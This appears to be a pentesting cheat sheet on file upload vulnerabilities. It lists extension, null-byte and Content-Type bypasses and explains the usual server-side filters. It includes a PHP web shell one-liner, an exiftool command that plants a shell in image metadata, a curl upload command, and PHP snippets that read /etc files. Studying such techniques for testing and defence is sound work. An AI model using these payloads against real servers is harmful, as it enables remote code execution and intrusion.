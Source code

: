 
* Upload file with **double extension**(ex: file.png.php or file.png.php5).
1. PHP extensions: php,php2,php3,php4,php5,php6,php7,phps,pht,phtml,pgif,shtml,htaccess,phar,inc.
2. ASP extensions: asp,aspx,config,ashx,asmx,aspq,axd,cshtm,cshtml,rem,soap,vbhtml,asa,cer,shtml

* Try to **upper case some letter** of extension ex: pHp,pHP5,PhAr
* **Double or more extension**: 1. file.png.php 2.file.png.txt.php
* **reverse double extension**(useful to exploit apache misconfig where anything with extension .php but not necessarily ending in .php will execute code) ex: file.php.png
* **Double extenson ending with nullcharacter** ex: file.php%00.png
* **add several special characters at the end of the extension** ex: %00,%20,...
1. file.php%00
2. file.php%20
3. file.php....( in windows dots are removed)
4. file.php/
5. file.php\
* **Bypass Content-Type** checks by setting **value** of the **Content-Type header** to : image/png,text/plain,application/octet-stream
* **Bypass magic number** check by adding at the begnning of the file the **bytes of a real image** (confuse the file command) or introduce the shell inside the **metadata**.
`exiftool --comment="<?php echo 'Command:'; if($POST){system($POST['cmd']);} __halt_compiler();" img.jpg`

# Simple php RCE code
```
<?php
    echo system($_GET["cmd"]);
?>
```


# Filtering 
There are two way to filter 
1. Client Side
2. Server Side

## Client Side 
This is done by javascript 
**Bypass:** Just remove the javascript or diable it also 


## Server Side
 Traditionally PHP was the predominant server-side language also in recent years (C#, Node.js, Python, Ruby on Rails, and a variety of others) are more widely used.
 
 
 
 ## Different kind of filtering 
 
1. Extension validation
2. File Type Filtering
3. File Length Filtering
4. File Name Filtering
5. File Content Filtering

It's worth noting that none of these filters are perfect by themselves -- they will usually be used in conjunction with each other, providing a multi-layered filter, thus increasing the security of the upload significantly. Any of these filters can all be applied client-side, server-side, or both.

**Extension Validation:**
File extensions are used (in theory) to identify the contents of a file. In practice they are very easy to change, so actually don't mean much; however, MS Windows still uses them to identify file types, although Unix based systems tend to rely on other methods, which we'll cover in a bit. Filters that check for extensions work in one of two ways. They either blacklist extensions (i.e. have a list of extensions which are not allowed) or they whitelist extensions (i.e. have a list of extensions which are allowed, and reject everything else).

**File Type Filtering**
Similar to Extension validation, but more intensive, file type filtering looks, once again, to verify that the contents of a file are acceptable to upload. We'll be looking at two types of file type validation:
* MIME validation: MIME (Multipurpose Internet Mail Extension) types are used as an identifier for files -- originally when transfered as attachments over email, but now also when files are being transferred over HTTP(S). The MIME type for a file upload is attached in the header of the request, and looks something like this:

![](https://i.imgur.com/uptWRKW.png)

* Magic Number Validation: Basically magic number are the magic bits from which file is determined that what type of file it is `file abc.png` this shell command will show you the hex of the file and in which you will see:

![](https://i.imgur.com/vHQWOgi.png)

_The first **8values** shows the magic bytes _

**File Length Filtering:**
File length filters are used to prevent huge files from being uploaded to the server via an upload form (as this can potentially starve the server of resources). In most cases this will not cause us any issues when we upload shells; however, it's worth bearing in mind that if an upload form only expects a very small file to be uploaded, there may be a length filter in place to ensure that the file length requirement is adhered to. As an example, our fully fledged PHP reverse shell from the previous task is 5.4Kb big -- relatively tiny, but if the form expects a maximum of 2Kb then we would need to find an alternative shell to upload.

**File Name Filtering:**

As touched upon previously, files uploaded to a server should be unique. Usually this would mean adding a random aspect to the file name, however, an alternative strategy would be to check if a file with the same name already exists on the server, and give the user an error if so. Additionally, file names should be sanitised on upload to ensure that they don't contain any "bad characters", which could potentially cause problems on the file system when uploaded (e.g. null bytes or forward slashes on Linux, as well as control characters such as `;` and potentially unicode characters). What this means for us is that, on a well administered system, our uploaded files are unlikely to have the same name we gave them before uploading, so be aware that you may have to go hunting for your shell in the event that you manage to bypass the content filtering.

**File Content Filtering:**
More complicated filtering systems may scan the full contents of an uploaded file to ensure that it's not spoofing its extension, MIME type and Magic Number. 

_**These filters are used as a chain or multi-layered filter **_

Similarly, different frameworks and languages come with their own inherent methods of filtering and validating uploaded files. As a result, it is possible for language specific exploits to appear; for example, until PHP major version five, it was possible to bypass an extension filter by appending a null byte, followed by a valid extension, to the malicious .php file. More recently it was also possible to inject PHP code into the exif data of an otherwise valid image file, then force the server to execute it. These are things that you are welcome to research further, should you be interested.


## Client Side Bypass

This is easy to bypass because this persist in the client browser which user can allow or change 
The various methods used to bypass client side filtering.
1. **Turn off the Javascript in browser:** This will work as site doesnt need javascript to provide basic functionalities.
2. **Intercept and modify the incoming page:** Using Burp, we can intercept the incoming web page and strip out the js filters before it has a chance to run.
3. **Intercept and modify the file upload:** Where the previous method works before the webpage is loaded, this method allows the web page to load as normal, but intercepts the file upload after it's already passed (and been accepted by the filter).
4. **Send the file directly to the upload point:** Why use the webpage with the filter, when you can send the file directly using a tool like curl? Posting the data directly to the page which contains the code for handling the file upload is another effective method for completely bypassing a client side filter `curl -X POST -F "submit:<value> -F "<file-parameter>:@"`



# File upload and read content of system without SYSTEM call

so in this we arent gonna use system($\_GET['x3rz'])  to go with the parameter so in this we will be using general function provided by php i.e : ==scandir(), file_get_contents()==

#### for scandir :
```
//specifying directory 
$mydir = '/etc/'; 
//scanning files in a given diretory in ascending order 
$myfiles = scandir(\$mydir);
//displaying the files in the directory 
print_r($myfiles); 
```
So here you can see the scandir func working on /etc directory and will print result in ascending order.

#### For reading files
```
$text = file_get_contents('/etc/f1@g.txt'); 
echo $text; 
```
here just specifying the directory to read the flag.

# [Mitigation](https://www.developerdrive.com/common-php-file-upload-restrictions/)
[hacktricks](https://book.hacktricks.xyz/pentesting-web/file-upload)
[OWASP](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html#content-type-validation)